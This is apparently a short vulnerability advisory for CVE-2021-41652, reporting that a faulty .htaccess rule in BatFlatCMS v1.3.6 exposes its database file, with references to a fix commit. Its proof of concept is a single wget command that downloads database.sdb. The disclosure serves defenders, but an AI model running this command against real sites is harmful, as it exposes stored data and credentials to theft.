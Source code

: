 # CVE-2021-41652

### Description:

An incorrect access rule in `.htaccess` of BatFlatCMS v1.3.6 leads to database access (database.sdb)

### Proof of concept:

`wget http://localhost/inc/data/database.sdb`

### References:

- [https://deathflash1411.github.io/blog/cve-2021-41652](https://deathflash1411.github.io/blog/cve-2021-41652)
- [https://www.cve.org/CVERecord?id=CVE-2021-41652](https://www.cve.org/CVERecord?id=CVE-2021-41652)
- [Fixed Commit](https://github.com/sruupl/batflat/commit/9211d84406d63c575b079619137aff74b67cd344)
- [BatFlat Docs](https://batflat.org/docs)
